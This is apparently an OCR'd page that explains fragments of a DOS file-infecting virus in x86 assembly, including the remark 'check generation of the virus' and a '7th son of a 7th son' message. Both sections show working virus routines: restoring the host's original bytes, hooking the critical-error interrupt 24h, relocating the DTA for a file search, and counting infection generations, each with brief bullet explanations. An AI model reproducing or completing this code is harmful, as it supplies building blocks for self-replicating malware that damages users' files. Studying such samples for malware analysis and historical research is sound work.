 ## Environment Restoration

```assembly
                push    si                      ;restore original begin
                movsw
                movsw
                pop     si

                mov     ax,3300h                ;get ctrl-break flag
                int     21
                push    dx

                cwd                             ;clear the flag
                inc     ax
                push    ax
                int     21

                mov     ax,3524h                ;get int24 vector
                int     21
                push    bx
                push    es
```
- Saves and restores the initial environment.
- Modifies the interrupt vector 24h.

## File Management

```assembly
                lea     dx,[si+(offset ni24 - 0104)]  ;set new int24 vector
                mov     ah,25h
                push    ax
                int     21

                mov     ah,2Fh                  ;get DTA address
                int     21
                push    es
                push    bx

                add     dx,070h                 ;set new DTA address
                mov     ah,1Ah
                int     21
                add     dx,1Eh
                push    dx

                lea     di,[si+(offset generation-0104)]  ;check generation
                cmp     [di],0707h
                jne     verder

                lea     dx,[di+2]               ;7th son of a 7th son!
                mov     ah,09h
                int     21
```
- Sets a new DTA address.
- Checks the generation of the virus.
